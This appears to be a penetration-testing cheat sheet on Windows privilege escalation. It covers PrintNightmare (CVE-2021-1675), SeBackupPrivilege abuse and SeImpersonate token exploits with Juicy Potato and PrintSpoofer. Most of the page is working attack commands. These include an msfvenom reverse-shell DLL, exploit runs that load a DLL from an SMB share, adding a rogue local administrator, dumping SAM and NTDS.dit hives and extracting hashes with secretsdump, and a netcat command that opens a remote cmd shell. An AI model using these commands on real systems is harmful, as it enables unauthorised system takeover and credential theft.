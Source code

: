 # Windows

## PrintNightmare (CVE-2021-1675)

{% embed url="https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html" %}

{% embed url="https://fahmifj.github.io/blog/testing-printnightmare-on-hackthebox/" %}

{% embed url="https://github.com/cube0x0/CVE-2021-1675" %}

We can use `rpcdump.py` from impacket to scan for potential vulnerable hosts, if it returns a value, it could be vulnerable

```
rpcdump.py @192.168.1.10 | egrep 'MS-RPRN|MS-PAR'

Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol
```

#### Install their version of Impacket

```bash
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

#### Create a malicious .dll&#x20;

{% code overflow="wrap" %}
```python
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.5 LPORT=443 -f dll > shell.dll
```
{% endcode %}

#### Host a smbserver

```
impacket-smbserver share . -smb2support
```

{% code overflow="wrap" %}
```python
./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'

./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'
```
{% endcode %}

{% embed url="https://github.com/calebstewart/CVE-2021-1675" %}

```powershell
Import-Module .\cve-2021-1675.ps1
Invoke-Nightmare # add user `adm1n`/`P@ssw0rd` in the local admin group by default

Invoke-Nightmare -DriverName "Xerox" -NewUser "john" -NewPassword "SuperSecure" 
```

## SeBackupPrivilege

{% embed url="https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/" %}

#### Method 1

#### Standalone Windows Box

```
# on victim
cd c:\
mkdir Temp
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system

download sam
download system

# on kali
pypykatz registry --sam sam system
```

#### Domain Controller

This privilege only allows you to make backups not copies

```
# on kali
nano pwn.dsh
set context persistent nowriters
add volume c: alias pwn
create
expose %pwn% z:
unix2dos pwn.dsh

# on victim
cd C:\Temp
upload pwn.dsh
diskshadow /s pwn.dsh
robocopy /b z:\windows\ntds . ntds.dit

reg save hklm\system c:\Temp\system
cd C:\Temp
download ntds.dit
download system

# on kali
impacket-secretsdump -ntds ntds.dit -system system local
```

#### Method 2

{% embed url="https://github.com/giuliano108/SeBackupPrivilege" %}

```
# on kali
nano pwn.dsh
set context persistent nowriters
add volume c: alias pwn
create
expose %pwn% z:
unix2dos pwn.dsh

# on victim
cd C:\Temp
upload pwn.dsh
upload SeBackupPrivilegeUtils.dll
upload SeBackupPrivilegeCmdLets.dll

Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
diskshadow /s pwn.dsh

Copy-FileSebackupPrivilege z:\Windows\NTDS\ntds.dit C:\Temp\ntds.dit
reg save hklm\system c:\Temp\system
cd C:\Temp
download ntds.dit
download system

# on kali
impacket-secretsdump -ntds ntds.dit -system system local
```

## SeImpersonateToken

SeImpersonateToken or SeAssignPrimaryToken - Enabled

### Exploiting with Juicy Potato

[http://ohpe.it/juicy-potato/\
http://ohpe.it/juicy-potato/CLSID\
https://github.com/ivanitlearning/Juicy-Potato-x86/releases](http://ohpe.it/juicy-potato/http://ohpe.it/juicy-potato/CLSIDhttps:/github.com/ivanitlearning/Juicy-Potato-x86/releases)

We need to specify CLSID value with systeminfo. It changes with Windows versions.

```
LocalService CLSID
BITS	{4991d34b-80a1-4291-83b6-3328366b9097}	NT AUTHORITY\SYSTEM

Checking...
JuicyPotatox86.exe -l 1337 -p c:\windows\system32\cmd.exe -t * -c {4991d34b-80a1-4291-83b6-3328366b9097}
[+] CreateProcessWithTokenW OK

JuicyPotatox86.exe -l 1337 -p C:\windows\temp\nc.exe -a "-e cmd 192.168.1.1 80" -t * -c {4991d34b-80a1-4291-83b6-3328366b9097}
```

### Exploiting with PrintSpoofer.exe

The target machine's arch is need to be x64.

[https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)

```
PrintSpoofer.exe -i -c cmd
\\192.168.1.1\Share\PrintSpoofer.exe -i -c cmd
```
